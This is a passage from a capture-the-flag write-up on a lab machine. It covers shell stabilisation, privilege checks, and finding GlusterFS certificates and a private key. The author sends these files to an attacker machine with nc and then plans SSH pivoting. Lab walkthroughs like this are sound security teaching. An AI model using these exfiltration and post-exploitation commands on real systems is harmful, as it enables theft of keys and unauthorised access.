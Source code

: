 In order to have a better console I am going to make a treatment of it. If I list a little bit the system I can't find much, but I remember that I couldn't mount the **GlusterFS vol1**, which gives me a little clue, to look for those certificates I needed. If I look in the directory where I was trying to load them I find them, so it would be enough to send them to my attacking machine with `nc` and then verify their integrity with `md5sum`. If now I try to mount the volume, it generates an error, but reviewing the **log** I see that it searches in a different directory, so I just move the certificates and I could mount the volume **vol1**. When accessing the directory, by the structure and the folders it has, it seems to be the home of some user. And I see the **.ssh** folder, which can help me to perform a **User Pivoting** using **ssh**.

```bash
script /dev/null -c bash        [ctrl+z]
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 29 columns 128

which pkexec
which pkexec | xargs ls -l              # Is NOT SUID       :(

cd /home
cd jennifer                             # Permision denied  :(
grep "sh$" /etc/passwd                  # jennifer

cd /etc/ssl
ls -l                                   # There they are!!!
```

> **File transfer**:

```bash
# Attacker Machine
cd /etc/ssl

nc -nlvp 443 > glusterfs.ca             # Then: glusterfs.key, glusterfs.pem
md5sum glusterfs.ca
```

```bash
# Victim Machine
nc 10.10.14.8 443 < glusterfs.ca        # Then: glusterfs.key, glusterfs.pem
md5sum glusterfs.ca
```

```bash
mount -t glusterfs 10.10.11.131:/vol1 /mnt/flustered
```

<br/>
<img src="{{ site.img_path }}/flustered_writeup/Flustered_37.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/flustered_writeup/Flustered_38.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/flustered_writeup/Flustered_39.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/flustered_writeup/Flustered_40.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/flustered_writeup/Flustered_41.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>